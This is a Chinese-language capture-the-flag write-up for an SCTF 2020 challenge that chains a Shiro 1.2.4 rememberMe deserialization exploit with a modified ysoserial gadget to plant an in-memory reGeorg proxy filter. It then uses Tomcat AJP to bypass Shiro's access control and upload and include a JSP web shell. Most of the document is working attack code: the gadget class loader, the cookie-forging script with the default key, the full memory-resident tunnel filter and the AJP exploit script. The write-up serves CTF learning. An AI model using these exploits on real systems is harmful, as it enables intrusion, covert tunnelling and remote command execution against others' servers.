







## Shiro反序列化上载reGeorg代理

题目附件直接给了完整的Docker环境，外部是Nginx反代出来的Spring Boot应用，反编译jar包由pom文件很容易发现存在Shiro 1.2.4 反序列化漏洞和commons-beanutils链，但题目环境不出网，flag在内网机器中，所以需要先建立代理，我觉得最好的方式就是动态注册filter或者servlet，并将reGeorg的代码嵌入其中，但如果将POC都写在header中，肯定会超过中间件header长度限制，当然在某些版本也有办法修改这个长度限制，参考[基于全局储存的新思路 | Tomcat的一种通用回显方法研究](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247484799&idx=1&sn=42e7807d6ea0d8917b45e8aa2e4dba44)，以下采用了动态加载类的方式将代理的主要逻辑放入了POST包体中

除了建立socks5代理对内网应用进行攻击外，在靶机上留有nc，可以本地抓包Ajp协议，再通过nc发送

### 改造ysoserial

为了在ysoserial中正常使用下文中提到的类，需要先在pom.xml中加入如下依赖

```xml
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-core</artifactId>
    <version>8.5.50</version>
</dependency>

<dependency>
	<groupId>org.springframework</groupId>
	<artifactId>spring-web</artifactId>
	<version>2.5</version>
</dependency>
```


要让反序列化时运行指定的Java代码，需要借助TemplatesImpl，在ysoserial中新建一个类并继承AbstractTranslet，这里有不理解的可以参考[有关TemplatesImpl的反序列化漏洞链](https://l3yx.github.io/2020/02/22/JDK7u21%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Gadgets/#TemplatesImpl)

静态代码块中获取了Spring Boot上下文里的request，response和session，然后获取classData参数并通过反射调用defineClass动态加载此类，实例化后调用其中的equals方法传入request，response和session三个对象

```java
package ysoserial;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class MyClassLoader extends AbstractTranslet {
    static{
        try{
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            java.lang.reflect.Field r=request.getClass().getDeclaredField("request");
            r.setAccessible(true);
            org.apache.catalina.connector.Response response =((org.apache.catalina.connector.Request) r.get(request)).getResponse();
            javax.servlet.http.HttpSession session = request.getSession();

            String classData=request.getParameter("classData");
            System.out.println(classData);

            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
            cc.newInstance().equals(new Object[]{request,response,session});
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {
    }
    public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {
    }
}
```


然后在ysoserial.payloads.util包的Gadgets类中照着原有的createTemplatesImpl方法添加一个createTemplatesImpl(Class c)，参数即为我们要让服务端加载的类，如下直接将传入的c转换为字节码赋值给了_bytecodes

```java
public static <T> T createTemplatesImpl(Class c) throws Exception {
    Class<T> tplClass = null;

    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        tplClass = (Class<T>) Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl");
    }else{
        tplClass = (Class<T>) TemplatesImpl.class;
    }

    final T templates = tplClass.newInstance();
    final byte[] classBytes = ClassFiles.classAsBytes(c);

    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes
    });

    Reflections.setFieldValue(templates, "_name", "Pwnr");
    return templates;
}
```


最后复制CommonsBeanutils1.java的代码增加一个payload CommonsBeanutils1_ClassLoader.java，再把其中

```java
final Object templates = Gadgets.createTemplatesImpl(command);
```

修改为

```java
final Object templates = Gadgets.createTemplatesImpl(ysoserial.MyClassLoader.class);
```


打包

```java
mvn clean package -DskipTests
```


借以下脚本生成POC

```python
#python2
#pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

key  =  "kPH+bIxk5D2deZiIxcaaaA=="
mode =  AES.MODE_CBC
IV   = uuid.uuid4().bytes
encryptor = AES.new(base64.b64decode(key), mode, IV)

payload=base64.b64decode(sys.argv[1])
BS   = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
payload=pad(payload)

print(base64.b64encode(IV + encryptor.encrypt(payload)))
```

```bash
python2 shiro_cookie.py `java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1_ClassLoader anything |base64 |sed ':label;N;s/\n//;b label'`
```


### 改造reGeorg

对于reGeorg服务端的更改其实也就是request等对象的获取方式，为了方便注册filter，我直接让该类实现了Filter接口，在doFilter方法中完成reGeorg的主要逻辑，在equals方法中进行[filter的动态注册](https://xz.aliyun.com/t/7388)

```java
package reGeorg;

import javax.servlet.*;
import java.io.IOException;

public class MemReGeorg implements javax.servlet.Filter{
    private javax.servlet.http.HttpServletRequest request = null;
    private org.apache.catalina.connector.Response response = null;
    private javax.servlet.http.HttpSession session =null;

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
    public void destroy() {}
    @Override
    public void doFilter(ServletRequest request1, ServletResponse response1, FilterChain filterChain) throws IOException, ServletException {
        javax.servlet.http.HttpServletRequest request = (javax.servlet.http.HttpServletRequest)request1;
        javax.servlet.http.HttpServletResponse response = (javax.servlet.http.HttpServletResponse)response1;
        javax.servlet.http.HttpSession session = request.getSession();
        String cmd = request.getHeader("X-CMD");
        if (cmd != null) {
            response.setHeader("X-STATUS", "OK");
            if (cmd.compareTo("CONNECT") == 0) {
                try {
                    String target = request.getHeader("X-TARGET");
                    int port = Integer.parseInt(request.getHeader("X-PORT"));
                    java.nio.channels.SocketChannel socketChannel = java.nio.channels.SocketChannel.open();
                    socketChannel.connect(new java.net.InetSocketAddress(target, port));
                    socketChannel.configureBlocking(false);
                    session.setAttribute("socket", socketChannel);
                    response.setHeader("X-STATUS", "OK");
                } catch (java.net.UnknownHostException e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                } catch (java.io.IOException e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                }
            } else if (cmd.compareTo("DISCONNECT") == 0) {
                java.nio.channels.SocketChannel socketChannel = (java.nio.channels.SocketChannel)session.getAttribute("socket");
                try{
                    socketChannel.socket().close();
                } catch (Exception ex) {
                }
                session.invalidate();
            } else if (cmd.compareTo("READ") == 0){
                java.nio.channels.SocketChannel socketChannel = (java.nio.channels.SocketChannel)session.getAttribute("socket");
                try {
                    java.nio.ByteBuffer buf = java.nio.ByteBuffer.allocate(512);
                    int bytesRead = socketChannel.read(buf);
                    ServletOutputStream so = response.getOutputStream();
                    while (bytesRead > 0){
                        so.write(buf.array(),0,bytesRead);
                        so.flush();
                        buf.clear();
                        bytesRead = socketChannel.read(buf);
                    }
                    response.setHeader("X-STATUS", "OK");
                    so.flush();
                    so.close();
                } catch (Exception e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                }

            } else if (cmd.compareTo("FORWARD") == 0){
                java.nio.channels.SocketChannel socketChannel = (java.nio.channels.SocketChannel)session.getAttribute("socket");
                try {
                    int readlen = request.getContentLength();
                    byte[] buff = new byte[readlen];
                    request.getInputStream().read(buff, 0, readlen);
                    java.nio.ByteBuffer buf = java.nio.ByteBuffer.allocate(readlen);
                    buf.clear();
                    buf.put(buff);
                    buf.flip();
                    while(buf.hasRemaining()) {
                        socketChannel.write(buf);
                    }
                    response.setHeader("X-STATUS", "OK");
                } catch (Exception e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                    socketChannel.socket().close();
                }
            }
        } else {
            filterChain.doFilter(request, response);
        }
    }

    public boolean equals(Object obj) {
        Object[] context=(Object[]) obj;
        this.session = (javax.servlet.http.HttpSession ) context[2];
        this.response = (org.apache.catalina.connector.Response) context[1];
        this.request = (javax.servlet.http.HttpServletRequest) context[0];

        try {
            dynamicAddFilter(new MemReGeorg(),"reGeorg","/*",request);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }

        return true;
    }

    public static void dynamicAddFilter(javax.servlet.Filter filter,String name,String url,javax.servlet.http.HttpServletRequest request) throws IllegalAccessException {
        javax.servlet.ServletContext servletContext=request.getServletContext();
        if (servletContext.getFilterRegistration(name) == null) {
            java.lang.reflect.Field contextField = null;
            org.apache.catalina.core.ApplicationContext applicationContext =null;
            org.apache.catalina.core.StandardContext standardContext=null;
            java.lang.reflect.Field stateField=null;
            javax.servlet.FilterRegistration.Dynamic filterRegistration =null;

            try {
                contextField=servletContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(servletContext);
                contextField=applicationContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                standardContext= (org.apache.catalina.core.StandardContext) contextField.get(applicationContext);
                stateField=org.apache.catalina.util.LifecycleBase.class.getDeclaredField("state");
                stateField.setAccessible(true);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTING_PREP);
                filterRegistration = servletContext.addFilter(name, filter);
                filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,new String[]{url});
                java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class.getMethod("filterStart");
                filterStartMethod.setAccessible(true);
                filterStartMethod.invoke(standardContext, null);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }catch (Exception e){
                ;
            }finally {
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }
        }
    }
}
```


编译后使用如下命令得到其字节码的base64

```bash
cat MemReGeorg.class|base64 |sed ':label;N;s/\n//;b label'
```


### 测试

在Cookie处填入 rememberMe=[ysoserial生成的POC]，POST包体填入classData=[MemReGeorg类字节码的base64]，注意POST中参数需要URL编码，发包




然后带上`X-CMD:l3yx`header头再请求页面，返回`X-STATUS: OK`说明reGeorg已经正常工作




reGeorg客户端也需要修改一下，原版会先GET请求一下网页判断是否是reGeorg的jsp页面，由于这里是添加了一个filter，正常访问网页是不会有变化的，只有带上相关头才会进入reGeorg代码，所以需要将客户端中相关的验证去除

在askGeorg函数第一行增加return True即可




连接reGeorg




这里是测试环境，实际题目中不允许出外网




## Ajp协议绕过Shiro权限控制

接入代理后已经可以成功访问内网，然后根据Dockerfile或者提示文件很容易找到内网WEB应用

http://sctf2020tomcat.syclover:8080/login



内网中该版本的Tomcat存在Ajp文件包含漏洞，可上传文件并包含getshell，但是文件上传接口有Shiro进行权限控制

使用Ajp协议绕过的方法，参考:

https://issues.apache.org/jira/browse/SHIRO-760

[https://gv7.me/articles/2020/how-to-detect-tomcat-ajp-lfi-more-accurately/#0x05-%E6%83%85%E5%86%B5%E5%9B%9B%EF%BC%9Ashiro%E7%8E%AF%E5%A2%83%E4%B8%8B](https://gv7.me/articles/2020/how-to-detect-tomcat-ajp-lfi-more-accurately/#0x05-情况四：shiro环境下)


借助[AJPy库](https://github.com/hypn0s/AJPy)，最后文件上传+文件包含的POC:

```python
import sys
import os
from io import BytesIO
from ajpy.ajp import AjpResponse, AjpForwardRequest, AjpBodyRequest, NotFoundException
from tomcat import Tomcat

#proxy
import socks
import socket
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, "127.0.0.1", 8081)
socket.socket = socks.socksocket

target_host = "sctf2020tomcat.syclover"
gc = Tomcat(target_host, 8009)

filename = "shell.jpg"
payload = "<% out.println(new java.io.BufferedReader(new java.io.InputStreamReader(Runtime.getRuntime().exec(\"cat /flag.txt\").getInputStream())).readLine()); %>"

with open("./request", "w+b") as f:
    s_form_header = '------WebKitFormBoundaryb2qpuwMoVtQJENti\r\nContent-Disposition: form-data; name="file"; filename="%s"\r\nContent-Type: application/octet-stream\r\n\r\n' % filename
    s_form_footer = '\r\n------WebKitFormBoundaryb2qpuwMoVtQJENti--\r\n'
    f.write(s_form_header.encode('utf-8'))
    f.write(payload.encode('utf-8'))
    f.write(s_form_footer.encode('utf-8'))

data_len = os.path.getsize("./request")

headers = {  
        "SC_REQ_CONTENT_TYPE": "multipart/form-data; boundary=----WebKitFormBoundaryb2qpuwMoVtQJENti",
        "SC_REQ_CONTENT_LENGTH": "%d" % data_len,
}

attributes = [
    {
        "name": "req_attribute"
        , "value": ("javax.servlet.include.request_uri", "/;/admin/upload", )
    }
    , {
        "name": "req_attribute"
        , "value": ("javax.servlet.include.path_info", "/", )
    }
    , {
        "name": "req_attribute"
        , "value": ("javax.servlet.include.servlet_path", "", )
    }
, ]

hdrs, data = gc.perform_request("/", headers=headers, method="POST",  attributes=attributes)

with open("./request", "rb") as f:
    br = AjpBodyRequest(f, data_len, AjpBodyRequest.SERVER_TO_CONTAINER)
    responses = br.send_and_receive(gc.socket, gc.stream)

r = AjpResponse()
r.parse(gc.stream)

shell_path = r.data.decode('utf-8').strip('\x00').split('/')[-1]
print("="*50)
print(shell_path)
print("="*50)

gc = Tomcat(target_host, 8009)

attributes = [
    {"name": "req_attribute", "value": ("javax.servlet.include.request_uri", "/",)},
    {"name": "req_attribute", "value": ("javax.servlet.include.path_info", shell_path,)},
    {"name": "req_attribute", "value": ("javax.servlet.include.servlet_path", "/",)},
]
hdrs, data = gc.perform_request("/uploads/1.jsp", attributes=attributes)
output = sys.stdout

for d in data:
    try:
        output.write(d.data.decode('utf8'))
    except UnicodeDecodeError:
        output.write(repr(d.data))

```



